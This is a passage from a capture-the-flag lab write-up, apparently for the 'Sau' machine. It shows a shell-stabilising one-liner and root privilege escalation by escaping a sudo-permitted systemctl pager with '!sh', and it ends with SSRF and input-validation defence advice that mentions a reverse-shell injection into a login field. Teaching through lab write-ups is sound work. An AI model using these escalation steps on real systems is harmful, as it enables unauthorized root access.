 We find the user flag in the home directory.

```
puma@sau:/root$ cd ../../home/puma
puma@sau:~$ ls
user.txt
puma@sau:~$ cat user.txt
[REDACTED]
```

### Privilege Escalation
We first stabilize the shell to make it easier to work with.

##### Commands:
>python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm

Using the command ```uname -a``` we see that this is a ```Ubuntu 5.4.0-153-generic``` machine.

```Linux sau 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

We check what the user ```puma``` can do with sudo.
##### Command:
>sudo -l

```Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We see that ```puma``` can run ```systemctl status trail.service``` as root with sudo privileges. Running this command, we get a ```less```-like interface. At the end we can enter commands. We enter the command ```!sh``` and immediately gain a root shell, and can grab the root flag.

```
# whoami
root
# pwd
/opt/maltrail
# cd ../../root
# ls
go  root.txt
# cat root.txt
[REDACTED]
```

### Conclusion
This was a quick and easy machine, but it highlights some of the most common vulnerabilities found in web applications. Server-Side Request Forgery vulnerabilities are one of the [OWASP Top 10](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/) from 2021. Whenever a web application fetches a remote resource without correct user-supplied URLs, an attacker can find an exploit. OWASP Notes that incidents involving SSRF are increasing, and suggests that this is due to the increase of cloud services. These require remote fetching of data, often using user-supplied URLs. Therefore, it is paramount that developers ensure anything that the user controls is properly validated. Some of the ways in which SSRF-based attacks can be prevented include segmenting remote resources in separate networks, enforcing ['deny by default'](https://securosis.com/blog/network-security-fundamentals-default-deny) firewall policies, proper validation and sanitisation of user-supplied data, and enforcing a strict URL schema. In the exploitation of Maltrail, we see another input-validation issue. The exploit used in this CTF sends a reverse shell into the username field of a login portal. A vulnerability of this nature can easily be prevented by ensuring all inputs are properly sanitized, so that console commands cannot be injected. This simple challenge has demonstrated how easy it can be for an attacker to gain root access when inputs are not properly validated.
